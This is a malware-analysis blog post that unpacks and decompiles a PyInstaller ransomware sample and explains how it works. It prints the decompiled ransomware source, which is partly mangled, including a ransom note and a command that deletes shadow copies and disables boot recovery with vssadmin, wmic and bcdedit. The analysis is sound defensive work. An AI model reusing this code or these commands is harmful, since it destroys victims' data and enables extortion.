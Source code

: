 ```yaml
---
title: "Malware analysis of Pyinstaller ransomware sample"
classes: wide
header:
  teaser: /assets/images/malwareanalysis/pyinstaller/image-1.jpg
ribbon: DodgerBlue
description: "Analyzing signed .exe malware sample"
categories:
  - Malware Analysis
toc: true
---
```


Recently, I've came across this ransomware sample sample:
![Encryptor.exe ransomware](/assets/images/malwareanalysis/pyinstaller//image.png)

First, let's examine the .exe file statically.
# Understanding the file
Here's the `Detect It Easy` output:
![Detect it easy](/assets/images/malwareanalysis/pyinstaller/image-1.png)

We can clearly see that the program is a python-compiled executable, by examining the hexadecimal artifacts:

![alt text](/assets/images/malwareanalysis/pyinstaller/image-2.png)

Now, let's jump to reversing the file! 

We will use the Python script [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract and analyze the contents of this pyinstaller generated executable file:
# Unpacking pyinstaller resources
![Analyzing the file](/assets/images/malwareanalysis/pyinstaller/image-3.png)

We received the output from pyinstxtractor:
```
C:\Users\WDAGUtilityAccount\Downloads\analyzing>pyinstxtractor.py Encryptor.exe
[+] Processing Encryptor.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.13
[+] Length of package: 21092376 bytes
[+] Found 120 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: pyi_rth_pywintypes.pyc
[+] Possible entry point: pyi_rth_pythoncom.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: Encryptor.pyc
[+] Found 609 files in PYZ archive
[+] Successfully extracted pyinstaller archive: Encryptor.exe

```

You can now use a python decompiler on the pyc files within the extracted directory.

So, let's go to the newly generated `Encrypted.exe_extracted` folder:

![Unpacked libraries](/assets/images/malwareanalysis/pyinstaller/image-4.png)

This ransomware sample clearly uses a lot of cryptographic libraries.

Let's take a look at this `Encrypted.pyc` file:

![Bytecode](/assets/images/malwareanalysis/pyinstaller/image-5.png)

To decompile the `Encrypted.pyc` file, we'll use the web interface of this library called[pylingual](https://www.pylingual.io/), that will decompile the `Encrypted.pyc` file which contains the compiled bytecode of the ransomware's main Python source code:

![pylingual](/assets/images/malwareanalysis/pyinstaller/image-6.png)

As you can see, pylingual gave us a great reconstruction of the source code:
# Reconstructed source code
```py

# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Encryptor.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from pathlib import Path
from PIL import Image, ImageDraw, ImageFont
import ctypes
import string
import subprocess
import shutil
import base64
import sys
from win32com.client import Dispatch
from win32api import GetSystemMetrics
from PIL import Image, ImageDraw, ImageFont
import random
import os
import secrets
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
PUBLIC_KEY_PEM = '-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDzOPVPDhQAR/xYjucI5SdCugXS\nG9ZFk5C1It85dOvh+fmD1UNXs5h3R28hUtThRARNh2ar3ADlGGWHIKwoV4P5hZx4\nq2Cg4odgWrf7a5eskCu3fI4eCTKBSItuEs4nFrjdu6HDXnzVHDkxrkWY96mmoZ9R\n0zG8Kyo6ofuge9p2IwIDAQAB\n-----END PUBLIC KEY-----'
AES_KEY_PATH = 'C:\\ProgramData\\02dq34jROu.key'
USER_PATH = os.path.expanduser('~')
TARGET_DIRS = ['Downloads', 'Music', 'Documents', 'Desktop', 'Videos', 'Pictures']
EXTENSION = '.02dq34jROu'

def _34EYLBSVGLRLCR7DM4():
    return serialization.load_pem_public_key(PUBLIC_KEY_PEM.encode(), backend=default_backend())

def _JXOPHO2CGWP23DL9L1():
    aes_key = secrets.token_bytes(32)
    public_key = _34EYLBSVGLRLCR7DM4()
    encrypted_aes_key = public_key.encrypt(aes_key, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()), algorithm=hashes.SHA256(), label=None))
    with open(AES_KEY_PATH, 'wb') as key_file:
        key_file.write(encrypted_aes_key)
        return aes_key

def _0HAHESD3QA17F3OWF7():
    if not os.path.exists(AES_KEY_PATH):
        return _JXOPHO2CGWP23DL9L1()

def _SSJAVGM86I7CGWDH9W(file_path, aes_key):
    if not file_path.endswith(EXTENSION) and (not file_path.endswith('.exe')) and (not file_path.endswith('.dll')) and file_path.endswith('.lnk'):
        pass  # postinserted
    return None

def _LLIRBGOWCAMFAVUTAK():
    global aes_key  # inserted
    contentof = '-- Lyrix\n\nYour data has been encrypted and stolen. The only way to recover it is by contacting us.\nDo not attempt to use third-party recovery tools — doing so may permanently damage your files.\n\nTo prove that decryption is possible, we are willing to decrypt 2 random files for free.\n\nYou can contact us at:\nTDVP7boZDZDE4GYWA3qW@protonmail.com\n\nWARNING!\nWe have also downloaded a portion of your data. If you do not pay, we will release it publicly.\n\nID: KVNR2HLU3N9W5BQCPU\n    '
    aes_key = _0HAHESD3QA17F3OWF7()
    print('AES key already exists. Skipping key generation.') if not aes_key else None
    appdata_dir = os.path.join(USER_PATH, 'AppData').lower()
    for root, dirs, files in os.walk(USER_PATH):
        root_normalized = os.path.abspath(root).lower()
        if root_normalized.startswith(appdata_dir):
            continue
        readme_path = os.path.join(root, 'README.txt')
        try:
            with open(readme_path, 'w', encoding='utf-8') as readme_file:
                readme_file.write(contentof)
                    print(f'Created README.txt in: {root}')
                    for file in files:
                        file_path = os.path.join(root, file)
                        try:
                            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
                            print(f'File [{file_path}] encrypted')
    except Exception as e:
        print(f'[WARNING] Failed to create README.txt in {root}: {e}')
    except Exception as e:
        print(f'[WARNING] Cannot Encrypt file {file_path}: {e}')
if __name__ == '__main__':
    _LLIRBGOWCAMFAVUTAK()
subprocess.Popen('cmd.exe /c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no', shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, stdin=subprocess.DEVNULL, creationflags=subprocess.CREATE_NO_WINDOW)
extensions_to_list = ['.exe', '.dll', '.lnk']

def list_files(drive_path, extensions):
    for root, dirs, files in os.walk(drive_path, topdown=True):
        for file in files:
            if any((file.endswith(ext) for ext in extensions)):
                continue
            file_path = os.path.join(root, file)
            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
for drive_letter in string.ascii_uppercase:
    drive_path = f'{drive_letter}:/'
    if drive_letter not in ['C'] and os.path.exists(drive_path):
        pass  # postinserted
    else:  # inserted
        try:
            list_files(drive_path, extensions_to_list)
except PermissionError:
    print(f'Access denied to {drive_path}')

```
Great! So now we managed to get the literal source code itself.

Let's explain what the code does step by step:

# Source code explanation
- `PUBLIC_KEY_PEM`: The attacker's RSA public key, hardcoded into the malware.
- `AES_KEY_PATH`: Where the victim’s encrypted AES key will be stored: `C:\ProgramData\02dq34jROu.key`. `02dq34jROu` is likely a generated ID for the key
- `TARGET_DIRS`: Standard folders to attack first (Downloads, Documents, Desktop, etc.).
- `EXTENSION`: Files will get renamed with the randomly generated ID `.02dq34jROu` after encryption (this code doesn't show the full renaming though).

The malware also uses `subprocess.Popen(...)` commands to deletes all system shadow copies and disables recovery options:

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete`
- `bcdedit /set {default} bootstatuspolicy ignoreallfailures`
- `bcdedit /set {default} recoveryenabled no`

This makes it harder to recover files without paying.

`list_files(drive_path, extensions)`

Walks through a drive letter (like D:/, E:/).

The encryption routine works like this:

- For every file, if file is **NOT** .exe, .dll, or .lnk, it tries to encrypt it.
- For every drive letter A: to Z, i**f the drive exists and is NOT C:** (system drive), encrypt files on it.

This ransomware has some bugs and problems, and is likely very ameatur-ish. 